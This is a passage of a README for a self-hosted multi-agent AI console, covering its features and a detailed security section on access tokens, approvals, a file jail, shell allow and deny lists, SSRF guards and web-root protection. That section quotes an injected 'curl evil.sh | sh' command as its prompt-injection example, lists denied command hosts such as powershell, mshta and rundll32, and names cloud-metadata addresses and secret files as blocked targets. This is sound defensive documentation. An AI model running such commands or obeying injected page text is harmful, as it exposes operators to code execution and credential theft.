| 🤝 | **Mesh — share agents** | Lend agents to another copy over the MCP server — friend tokens with read/write scope, installs land inactive and keyless, or run remotely on the sharer's meter — [Mesh](#-mesh--share-agents-between-copies) |
| 🎨 | **Themes** | Dark, Matrix, Cyberpunk |
| 🖼️ | **Vision** | Attach images for vision-capable agents — the bytes never hit the server |
| 🎙️ | **Voice** | 🎤 speech-to-text in, 🔊 spoken replies out, with per-agent pitch |
| ⌨️ | **Slash commands** | `/CODE`, `/ROLE`, `/NAME`, `/ALL`, `/?` — address agents from the composer |
| ⬇️ | **Scroll to latest** | With Auto Scroll off, scrolling up reveals a `∨` button parked above the composer; clicking it jumps to the newest message and follows new output until you scroll up again, and scrolling up with Auto Scroll on pauses the follow instead of yanking the transcript |
| 💬 | **Prompt rail** | One short tick per prompt down the right edge of the chat box, newest at the bottom — hovering names it, clicking jumps straight there and flashes the landing |
| 💾 | **Export / import** | Take a session out, or back up the whole state under a name you choose with one checkbox per section — agents, providers & keys, models, settings, memory, pipelines, conversations, metrics, sessions, shell config, approvals — and restore any of it onto any copy. A section the file lacks is left alone rather than blanked, and a restore keeps this copy's own token |
| 🧠 | **Dynamic tools** | Teaches each model the environment it's really in — and learns the tool dialect that works |
| 🔑 | **API pool** | Rotate a provider's extra keys after N requests; rest them on a 429 |
| 🌐 | **Built-in browser** | A real Chrome/Edge you and the agents drive — watch, click, type, log in |
| ♾️ | **Always-On loop** | Standing goals, auto re-prompted on a cadence — caps, hold/release, one master kill switch |
| 🏋️ | **Training mode** | A paced tool drill for every active agent — ~50% request rate, simple tasks in `training/`, retry-until-pass with todo logging — armed from a dumbbell in the Agents header — Start posts the drill into chat so the whole run stays visible |
| 📖 | **Harness & training guide** | Auto-fit, manual pins and the 12-step drill in one place — [Auto Forming Harnesses, Dialects & Training Mode](#-auto-forming-harnesses-dialects--training-mode) |
| ❝ | **Global pre-prompt** | One instruction for every agent — **prepend** (default) or **replace**, toggled live |
| 🧠 | **Context assembler** | History & tool output budgeted to each model's *real* window, with live compaction |
| 🧭 | **Apps notch** | One thumb-tab to the Labs, the routing chart and the built-in browser |
| 🧮 | **Resource Manager** | Optional pause / idle throttles + CPU/GPU gauges so the 3D graph can rest |
| 🕸️ | **MCP on the graph** | Outgoing calls and incoming friends drawn as live nodes with editable access |
| 🖥️ | **Two interfaces** | **Classic** (default) and **Desktop 2026** — one switch, same features, same store |
| 🎛️ | **Desktop card** | Fog · bloom · floating floor · floor pin · map detail · frame cap · glass — tuned defaults, every knob exposed |
| 🌐 | **Proxy** | Hundreds of live HTTP proxies — **elite** and **anonymous** only — with ping, uptime and favourites; one click routes outbound traffic through it — every endpoint on your own network goes direct |
| 🔄 | **Self-updates, one click** | A load-time check that names what shipped, asked again within the hour and offered on every load until installed, a verified download that shows the diff, and an installer that keeps a rollback copy first — your settings are never in scope |
| 🖥️ | **Agent-opened programs** | An agent may **name** a program on your list and it opens **detached**, so the window outlives the reply — closed gracefully, always by the binary and never by name, and audited as *started* |
| ⌨️ | **Typing into programs** | `window_type` brings an open window forward and types into it live — 2000 characters per call, special keys literal, newlines as ENTER, and a send that fails loudly if the window never came forward. It finds Windows 11's packaged Notepad, waits for a slow starter, and keeps its own Ask / Allow / Deny switch |
| 🕵️ | **Masked reads** | The config routes answer `********` instead of your access token, keys and friend tokens — and the write path restores the real value |
| 🏠 | **Local-only mode** | Until a token is set, only requests from this machine are answered — anything else gets **403** — and a reverse proxy is judged by the client it forwards, not by its own loopback address |
| 📱 | **Mobile-first** | Built for the phone in your pocket: the composer rides above the open keyboard, URL-bar wiggles are ignored, and an **Allow** choice finally sticks |

---
## 🔀 Routing chart

Draw the flow instead of describing it.

**Nodes** — agent, parallel, merge, checkpoint, delay, loop, end.


**Loops** carry per-lap state, and **parallel fan-out** runs every ready node concurrently — the scheduler handles it.



**Checkpoints** pause the run for review before it continues downstream.



**Delays** wait a duration or until a wall-clock time, and hold only their own branch.

**Live run state** shows on the edges (marching + glow while running, settle when done), with a faint **ghost transcript** of the chat behind the canvas and an **align-to-grid** snap (off by default). A **notification bell** lists run errors/warnings.

---

## 🧠 Brain Lab


One rail for everything about the selected agent:

<details>
<summary>The full rail, locks, and the Config tidy-up</summary>

- **Identity** — name, label, role, provider, model, colour, active.
- **Prompts & Profiles** — the agent's system prompt, an always-append box, and reusable **direction profiles** you can attach and lock. (A fleet-wide override lives in the Agents-tab header — see *Global pre-prompt override*.)
- **Direction profiles** — reusable, lockable instructions you can **attach** and **append** to any agent, so a house style is defined once and shared.
- **Rate / Throttle** — per-agent pacing.
- **Approvals & Tools** — per-tool **allow / ask / deny**, plus a tool protocol picker that shows the **auto-detected** dialect.
- **Custom tools** — define your own, straight from the rail.
- **Sandbox** — a per-agent **file jail** and the file manager.
- **Memory** — private and collective notes, a Long-term-memory switch, and delete buttons (forgetting is a first-class action).
- **Always-On** — a standing goal, loop cadence, and a live RUNNING/HELD/IDLE badge. (Full walk-through in *Always-On — the loop that runs itself* below.)

Every setting has a 🔒 **lock**: unlocked agents follow the global value live; a lock pins the agent to its own value so a global change never moves it. 🔏

---

**What these controls are for.** A file jail per agent, per-tool allow / ask / deny, and an `exec`
you must switch on: everything dangerous ships off, every write asks first, and the refusals are
proven by tests that make the real request - `serve.php`, the shipped `.htaccess` and the nginx
regexes all run through `php tests/php/run.php`. Turn the jail off, point it at a filesystem root and
auto-approve writes, and you have a capable tool with no brakes. The defaults are deliberately the
opposite, and the locks exist so one agent cannot quietly change them.

Apache-2.0, no warranty. The guards reduce risk; they do not make an agent safe to point at anything
you cannot afford to lose.


</details>

---
## 🧪 API Lab



Opened from the 🧪 icon in the Agents-tab header.

<details>
<summary>Both directions, server-side sending and guardrails</summary>

- **Both directions**: `curl → request → 10 languages`, and `language → request → curl/bash/Python/TypeScript/OpenAI-SDK`.
- **Sending is server-side**, because the browser can't reach most providers (no CORS headers). The server runs the request and returns the status + body.
- **Guardrails**: http/https only; cloud-metadata addresses refused; key-shaped headers masked on screen (copy/send still use the real value); response bodies truncated.

</details>

---

## 🌐 Built-in browser — you watch, the agents drive


A **real Chrome or Edge**, right inside the console — 🚫 no packages, 🚫 no extensions, just the DevTools Protocol. 🖥️ Open it from the **Browser** item in the apps notch and you get the live page, an address bar, **Go / Reload**, a **Live** auto-refresh, a headless ⇄ window toggle, and a **click-through** view: tap the page and it clicks. ✨

<details>
<summary>Click, type and read, logins, gates and the block list</summary>

- 🖱️ **Click, type, read** — click anywhere on the screenshot, type into the field you need, press **Enter**, and pull the page's visible text.
- 🤖 **Agents use the same page** — `browser_open` / `browser_click` / `browser_type` / `browser_read` / `browser_wait` drive it too, so a model can genuinely operate a web app.
- 🔐 **Logins stick** — the profile is persistent: log in **once** (headless, or in a window you can take over 🫳) and both you and the agents reuse the session.
- 🛡️ **Off by default and gated** — Config → Labs → *Browser* switches it on; **http/https only**, cloud-metadata addresses refused, and every route is token-gated.
- 🚫 **A domain / URL / IP block list** — a right-rail box on the Browser screen. One pattern per line, `*` wildcard: `*.gov`, `*word*`, a bare host/IP (`10.0.0.1`), or a URL path (`site.com/a/b/`). Enforced **server-side on every navigation** — yours *and* the agents' — and **re-checked after a click or type** in case a link reaches a banned host.
- 🐕 **One browser, reaped** — launching (or stopping) reaps any stray headless Chrome/Edge still holding the profile dir, so orphan instances never pile up and chew CPU/GPU.
- ⚡ **No multi-second stalls** — DevTools HTTP is read by exact `Content-Length` over a raw socket, navigation returns the moment the page is interactive, and every action is single-flight so a slow page can't stampede the connection pool.

</details>

---

## 🔐 Security & guardrails — safe by construction 🛡️

> **The short version:** giving a language model a shell, a filesystem and the web
> is normally a terrifying idea. So this app assumes the model is *hostile*, the
> web content it reads is *booby-trapped*, and the only trustworthy actor is
> **you, the operator**. Every capability is **off until you switch it on**, every
> dangerous action **asks first**, and every escape hatch has a floor beneath it.
> Nothing ships with a key 🔑, nothing runs before a token 🔑, and no tool can
> reach past the fence you drew. 🧱

### 🔑 1. The front door is locked — a per-device access token
- **🚪 Every single API route is gated.** With a token set, a request without it gets `401`; a copy with `require_token` on but no token at all answers `503 {"error":"no token configured"}`; and with `require_token` off, a caller that is not on this machine gets `403 local requests only` (§21). The only thing standing between a stranger and your agents' conversations, your files and your shell; the app has **no user accounts**, on purpose.
- **🧬 Nothing ships with a token.** A fresh copy **refuses to serve anything** until you run `./setup-token.sh` (or the one-click installer does it for you) — the `503` above is what anyone gets until then. You literally cannot forget to set one.
- **📵 The token never roams.** It is a **device-local credential**, *stripped from every state bundle* before it is mirrored to the server or synced to another device. One browser's empty field can never wipe another device's working paste.
- **🔁 Rotate on demand** — `./setup-token.sh --force` mints a new one; the old value dies instantly.
- **🧷 A restore cannot hand the gate away.** RESTORE keeps **this copy's own** access token, gate and roots even when the file came from an installation with a different token — so restoring someone else's backup can neither lock you out of your copy nor open it with theirs.
- **🔎 Lost it? `./setup-token.sh --show` prints the one in use** and says whether the gate is on or off. It
  needs python **or** php — whichever answers, php being the one a running copy cannot be without — and on
  Windows `start.bat -Token` prints the same token with no interpreter at all.

### 🚦 2. Approvals — nothing scary happens without a nod
- **✋ Ask-first by default.** `write_file`, `exec`, `run_code`, `git_commit` and their friends **queue a prompt** you answer: **Allow once / Always / Deny**.
- **🟢 Auto-approve is opt-in** — an explicit switch you flip, never an inherited default. Turn it on and any agent may write files without asking; leave it off and a human stays in the loop.
- **🛑 Auto-deny — the panic button.** One switch refuses *everything* that would otherwise ask, instantly, everywhere.
- **📥 A single Pending-approvals queue** collects everything waiting (from every agent **and** every remote MCP friend) so nothing slips through unseen.

### 🧾 3. Allow / Deny lists — an argv-level bouncer


- **✅ An allowlist you own** decides which programs may run at all. Each command is matched **argument by argument** — no glob fuzz.
- **⛔ A denylist that wins over approvals.** It is checked *before* the allowlist and before the approval prompt, so a name on it can never be waved through with "Always allow". `reboot`, `shutdown`, `rm`, `sudo`, `cmd`, `powershell` and the classic foot-guns live here.
- **🔁 …but nothing is denied *forever*.** The list is a **default**, not a law: an explicit `sandbox.exec_deny` in `storage/config.json` **replaces it wholesale**, and the same list is editable inline under **Config → Shell access** (or an MCP card's *Permissions* tab). Remove a name and it becomes an ordinary command again — refused as *"not allowed"* and back in the approval queue, exactly like everything else. No program is refused by name anywhere in code.
- **↩️ The undo path is on screen, not in the docs.** A refusal names the exact place to fix it — *"delete the `explorer` line under **Config → Permissions → Shell access → Allow / Deny** (section 4), add it to section 2"* — and says why an approval can't do it (the denylist is checked first). In that panel, **Restore built-in defaults** reloads the shipped list even after a custom one replaced it, so you can always see what you replaced. An empty box falls back to the built-in defaults on purpose: clearing it must not silently un-deny `rm` and `sudo`. For a genuinely empty denylist, set `"exec_deny": []` in `storage/config.json` — which is what the panel's hint tells you.
- **🧨 Tripwires for metacharacters** — `|`, `&&`, `eval`, `xargs`, `env` and friends are refused, so a model can't smuggle a second command through a "harmless" one.
- **🎚️ Per-interpreter levels** — Blocked / Scripts only / Full — so `run_code` can be dialled from "no" to "quiet scripts" to "go wild" independently of `exec`.
- **🚀 Background commands pass the same bouncer.** `exec_start` goes through the allowlist, the denylist and the approval prompt exactly as `exec` does — a server or watcher is not a way around the gate — and `exec_kill` stops the handle it was given. Inline-code flags stay refused for known interpreters even when merely allowlisted, and the path guard covers unlisted commands too.

### 🧱 4. The jail — a fence with no back gate
- **🔒 Every path is resolved server-side.** `../`, `..\\`, absolute paths and **symlinks** are all resolved and then checked — anything outside your declared **read/write roots** is refused with a message the model can read, not a mysterious crash.
- **🙈 Protected paths — secrets are invisible even *inside* a root.** A default deny-list (`storage/`, `.git`, `.env*`, `*.pem`, `*.key`, dotfiles, …) is enforced in the resolver itself, so **even if you point the root at the whole app folder, the access token and every provider key still cannot be read.** Clear the list to opt out — nothing is permanent.
- **✂️ Write scope is separate from read scope.** Keep writes in a scratch folder and even a prompt-injected agent can't overwrite `Config.php`, `.htaccess` or session data.

### 🐚 5. No shell to hijack
- **🧩 `exec` takes an *argv array*, not a string.** There is **no `sh -c`, no pipes, no redirects, no `$(...)`** — so there is no second command to inject, ever. The dangerous parts of "running a command" simply don't exist here.
- **📂 A directory argument is opaque to the path guard.** The check reads the *arguments*, so `cat storage/config.json` is refused — but `grep -rn token .` names only `.`, and grep itself decides what lies underneath. The protect list covers this app’s own tools (`read_file`, `grep`, `glob`, `zip`, `copy`, `move`, `remove`) and any argument that names a protected path; it cannot see inside a program that opens the directory itself. **A known recursive reader — `grep`, `rg`, `git grep`, `find`, `du`, `tar`, `zip` and the like — is refused outright** when the directory it was handed contains a protected entry — the guard knows the scope even though it cannot see what the program does inside it, so `grep -rn token .` over a tree holding `storage/` is turned away with the entry named. `git grep` has no path when it means the whole checkout, so its cwd is checked the same way. The scan is bounded (2,000 entries): a tree **too large to finish checking is refused too**, rather than waved through. Filesystem permissions remain the backstop — run the server as a user that cannot read `storage/`, and set an access token so the API is not leaning on locality either. A policy that cannot see inside `grep` should not be described as if it could.
- **🪟/🐧 Windows-aware** — builtins are implemented in PHP where no `.exe` exists, `.cmd`/`.bat` shims are never shelled, and the prompt is told the truth about the host so it stops guessing.
- **🔤 One entry covers both spellings.** Policy comparisons fold case and ignore a trailing `.exe`/`.com`, so `exec_allow: [grep]` matches the `grep.exe` Git for Windows actually ships, and a deny entry for `bash` also stops `bash.exe` (the WSL launcher). Without this the lists only protected the spelling you happened to type.
- **🪟 The Windows command hosts are denied by default.** `cmd`, `powershell`, `pwsh`, `wscript`, `cscript`, `mshta`, `rundll32`, `regsvr32`, `msiexec`, `wmic`, `schtasks`, `sc`, `reg`, `regedit` and `explorer` are each the local spelling of `sh -c` — the payload rides inside an argument, so the allowlist, the path guard and the jail never see it. They are **defaults you can remove**, not permanent refusals: that is the difference between a policy and a hardcoded block.

### 🧬 6. Edits are atomic, or they don't happen
- **🧷 `apply_patch` (V4A) and `multi_edit` are all-or-nothing.** Every hunk must match its context **exactly once**; one miss and **nothing is written** — no half-applied file, no corrupted source.
- **👀 Read-before-write** is the taught workflow, and search/replace refuses an ambiguous match rather than guessing which one you meant.

### 🐙 7. Git runs on a leash
- **📜 A subcommand allowlist** — read-only commands (`status`, `diff`, `log`, `show`, `blame`) run freely; anything that **writes** (`add`, `commit`, `checkout`, …) **asks first**.
- **🚫 Retargeting flags refused** — `-c`, `--git-dir`, `--work-tree`, `--output` can't be used to point git at somewhere it shouldn't go. `git_commit` supplies a safe default identity so it works on a clean host.

### 🌐 8. Network egress is fenced (SSRF guardrails)
- **🛰️ `fetch_url` and `http_request` refuse private and cloud-metadata hosts** by name — `169.254.x.x`, `metadata.google.internal`, `100.100.100.200` and friends — so a model can't use your box to probe the internal network or steal cloud credentials.
- **🔒 `http/https` only.** Spoofed `Host`, `Content-Length` and `Accept-Encoding` headers are **stripped**; responses are **truncated** so a giant page can't exhaust memory.
- **🧪 The API Lab keeps the same rules** and names the layer it failed at (dns / tls / connect / timeout / blocked) instead of leaking a stack trace.
- **🔒 The certificate is checked, not assumed.** Every outbound model and speech call used to carry `CURLOPT_SSL_VERIFYPEER => false`, so any host that answered was trusted with the API key and the prompt — a café network, a shared VPS neighbour or a proxy from a free list could stand in for the provider. Verification is on now: **Auto** (default) verifies real providers and exempts loopback, private ranges, `.local`/`.lan`/`.internal` names and single-word host names so a self-signed local runner still works; **Always verify** covers those too; **Never verify** is an explicit choice saved in `storage/config.json` under `tls.verify`, and the panel spells out what it means. Plain `http://` endpoints are untouched — there is no certificate in that exchange to check.
- **📌 A pin is a fingerprint, not a checkbox.** Trusting a LAN host means reading the chain it presents, seeing the SHA-256, and confirming it: `storage/tls/trusted.pem`, listed in Config → TLS / Certificates with its expiry, removable with FORGET (the last removal deletes the file, because an empty CAINFO fails every call while a missing one simply means nothing is pinned). `tls.ca_bundle` can still point at a PEM you manage yourself; an explicit bundle wins over pins and the panel says when it does. Nothing is ever written outside `storage/tls/`, and a certificate close to expiry is named in the TLS panel and in the bell before it becomes an outage.

### 🕵️ 9. Secrets never appear on screen
- **🙈 Key-shaped headers (`Authorization`, `x-api-key`, `Cookie`, …) are masked in the UI** — display only. Copy and send still use the real value, and the server **never echoes request headers back**.
- **📚 The converter lesson, learned the hard way.** Saved browser pages faithfully preserve secrets. The app now keeps such dumps **out of the webroot**, and the guidance is plain: **strip keys before saving a page.**

### 🖼️ 10. Vision is safe by construction
- **🧨 An image that is *also* a script** is the classic polyglot attack. Only **PNG / JPEG / WebP / GIF** are accepted, and only after they sniff as **inert**.
- **☁️ The bytes never touch the server.** An attached image becomes an in-memory `data:` URL and rides in the request's `image_url` field — **no upload endpoint, no file on disk.** 🗑️

### 🌐 11. The built-in browser is gated on every hop
- **🚪 Off by default**; every browser route returns **403** until you enable it (and the API refuses the tools regardless of what a prompt says).
- **🔗 `http/https` only**, cloud-metadata refused, and a **server-side block list** (`*.gov`, `*word*`, bare hosts/IPs, URL paths) is enforced on **every navigation** — yours *and* the agents' — and **re-checked after a click or type** in case a link reaches a banned host.
- **🐕 One instance, reaped.** Launching reaps any stray headless Chrome/Edge still holding the profile dir, so there is never a pile of them chewing CPU/GPU.

### 🤝 12. MCP server — lending tools without giving away the house
- **🎫 Per-friend tokens, each with a scope** — **read** / **write** / **exec** — plus an optional **IP allowlist** and **one-click revoke**. Tokens never expire until you kill them.
- **📏 Scope is a *ceiling*, the Sandbox is the *floor*.** A friend's token only decides *which* tool it may reach; the call still runs through **every** control above — the file jail, allow/deny lists, interpreter levels, code gate and the approval queue.
- **⏳ An un-allowed command lands in *your* Pending-approvals list** and the friend's call simply returns *"waiting for the operator."*
- **🏚️ Friends work in a scratch folder** that gets a **deny-all `.htaccess`**, so what they write is never served over the web.
- **🧾 Every call is audited** to `storage/mcp.log` (now JSON, so the graph can replay it).

### 🧷 13. Prompt-injection posture
- **Abandon all trust, ye who `fetch` here.** Anything an agent *reads* is treated as hostile input — which is exactly why commands are allowlisted, executed without a shell, and every path is jailed. A web page that says *"run `curl evil.sh | sh`"* hits three walls before it does anything: the allowlist, the no-shell exec, and the deny list.
- **🛠️ Tool calls win the argument.** The tool instructions state plainly that a tool call is the **one exception** to any "reply with only text / N words" rule, and the loop **re-prompts once** if a model merely *narrates* a tool call instead of sending it.
- **🚧 Agents can *call* MCP servers — never add one.** Server connections are operator-only.

### 🚫 14. Everything dangerous defaults to OFF 🐢
| Capability | Default | Guardrail |
| --- | --- | --- |
| 🔑 Access token | **required** | `401` without it — nothing runs first-run |
| 🐚 `exec` (shell) | **off** | allowlist + absolute deny + no shell |
| 🐍 `run_code` | **off** | per-interpreter level (Blocked / Scripts / Full) |
| 🌐 Built-in browser | **off** | `403`, http/https only, block list, SSRF guard |
| 🔁 API pool | **on** | only engages for a provider that *has* pool keys — with none, `pickKey` returns null and the single provider key is used exactly as before |
| 🖥️ MCP server | **off** | per-friend scoped tokens, audit log |
| 🟢 Auto-approve | **off** | every write still asks |
| 🕶️ Run while tab hidden | **off** | a background loop can't bill you silently |
| 🧮 Resource Manager | **all off** | the graph renders exactly as before |

### 🧯 15. Fails closed, and tells the truth
- **🧱 Fail closed** — when in doubt, refuse. A refused path reads as *"outside the allowed directories"*, never a blank `500`.
- **🧹 Error hygiene** — failures come back as `{"error": "..."}` with HTTP `400` and a message **meant for the model**, and `display_errors` stays off so stack traces and filesystem paths never leak to a browser.
- **🔍 Observability for you** — a live **Run trace** and an MCP audit log mean every model turn and tool call is inspectable after the fact.

### 🗄️ 16. `storage/` is never web-served — in **every** serving mode

- **🔑 What it holds.** The access token, every provider API key, the state
  bundle, **every session transcript**, and the **exec allow/deny lists** that
  decide which shell commands an agent may run. It is the most sensitive folder
  in the app, and the one-folder design puts it *inside* the web root — so the
  refusal has to be part of the app, not a step you remember. 🧠
- **🧭 Same policy everywhere.** `storage/` is not special-cased: `storage`, `logs`,
  `tmp`, `sessions` and `tests` are refused as **path segments**, in **all four**
  serving modes, and the dev tooling is treated exactly like the secrets.

| What is requested | 🧪 `serve.php` | 🟡 Apache | 🔴 nginx | 🔵 IIS |
| --- | --- | --- | --- | --- |
| `storage/config.json`, `state.json`, sessions | **403** | **403** | **404** | **404** |
| `tests/php/…`, `tests/js/…` | **403** | **403** | **404** | **404** |
| The bare folders (`/storage`, `/tests/`) — no listing either | **403** | **403** | **404** | **404** |
| **Any depth**: `<copy>/storage/config.json`, `<copy>/tests/…` | **403** | **403** | **404** | **404** |
| `…/STORAGE/state.json` (case variant) | **403** | **403** | **404** | **404** |
| Dotfiles at **any depth** (`.git/…`, `.htaccess`, `.env`, `.htpasswd`) | **403** | **403** | **404** | deny ¹ |
| Loose `.json` `.log` `.ini` `.bak` `.key` `.pem` outside `storage/` | served ² | served ² | **404** | served ² |
| `/api`, `/api/sessions`, `/api/config` | **served** | **served** | **served** | **served** |
| `ui/js/storage.js`, `ui/js/tools.js`, `/testsuite/` | **served** | **served** | **served** | **served** |

<sub>¹ IIS has no `.htaccess` equivalent: its refusal has to come from a `web.config` you add (the snippet is under *Quick start → Deploying*), the way nginx's comes from `nginx.example.conf`. Apache's own `.ht*` default is **not** a substitute — it covers `.htaccess` and `.htpasswd` and serves `.git/config` quite happily — which is why the root `.htaccess` carries the same dot rule as the other two modes. ² These only exist if something wrote them there — `storage/` never is.</sub>

- **🪆 Why “any depth” matters.** A second copy of the app — a backup, an
  archive of an older version, a folder kept for comparison — brings its **own**
  `storage/` with the same token and keys in it, and its `tests/` may predate
  `tests/.htaccess`. A root-only check served all of that. The guard is therefore a
  **segment** rule, not a prefix rule: anything named `storage` anywhere in the path
  is refused, which is why `https://host/router/old-copy/storage/config.json`
  answers `403` instead of a token.
- **🗂️ The checkout sits in the web root, so `.git/` is part of the surface.**
  This folder is the repository *and* the thing being served, which puts `.git/`
  behind the same door as everything else: `.git/config` can carry a remote URL
  with a token in it, and `.git/objects` reconstructs **every file ever
  committed** — including one removed later for holding a secret. `serve.php` and
  `nginx.example.conf` always refused dotfiles; Apache did not, and served
  `.git/config` with the real `[core]` section as a **200**. The root
  `.htaccess` now refuses any path segment starting with a dot, at any depth,
  with `/.well-known` as the single exception so ACME renewal still works — and
  `apacheGuards.test.php` requests `.git/config`, `.git/HEAD`, `.git/objects/pack/`
  and a nested `.git` so it cannot quietly reopen.
- **🧠 Why Apache needs `RedirectMatch`, not just a `RewriteRule`.** In
  per-directory context a child `.htaccess` **replaces** its parent's rewrite rules
  unless it opts into `RewriteOptions Inherit` — and every copy of this app ships
  its own root `.htaccess`, so a rewrite in the outer app never sees
  `<copy>/tests/…`. mod_alias configuration *is* merged down the tree, so the
  shipped `RedirectMatch 403` holds no matter what a nested folder declares. (Found
  with an Apache `rewrite:trace3` log: once the request maps into the copy, the
  parent's rules are skipped entirely.)
- **🚫 API routes are exempt — deliberately.** They are **endpoints, not files**.
  The sidebar asks for `/api/sessions` to list sessions; a rule that matched the
  word refused that call and broke the UI. No API route maps onto a path on disk —
  the handlers open `storage/` themselves, server-side.
- **🎯 Segment-anchored, not substring.** `ui/js/storage.js`, `ui/js/tools.js` and `/testsuite/` are still served: only a folder actually named `tests` is refused.
- **🔠 Case-insensitive on purpose.** Windows and macOS disks resolve
  `/STORAGE/state.json` to the real file, so a case-sensitive check was not a
  check at all — `serve.php` lower-cases every segment, Apache uses `NC` / `(?i)`,
  and nginx uses `~*`.
- **🧾 No source either.** `serve.php` refuses any `.php` request except the API
  front controller, so a mistyped path can't print PHP source as text; nginx is
  told to deny dotfiles and loose data files (`.json`, `.log`, `.ini`, `.bak`,
  `.key`, `.pem`) even outside `storage/`.
- **🟡 Apache files that ship and self-repair.** `storage/.htaccess` refuses its
  whole folder with `Require all denied` (plus an Apache 2.2 `Order/Deny` fallback,
  so an old host gets a clean `403` rather than a `500`), `tests/.htaccess` does
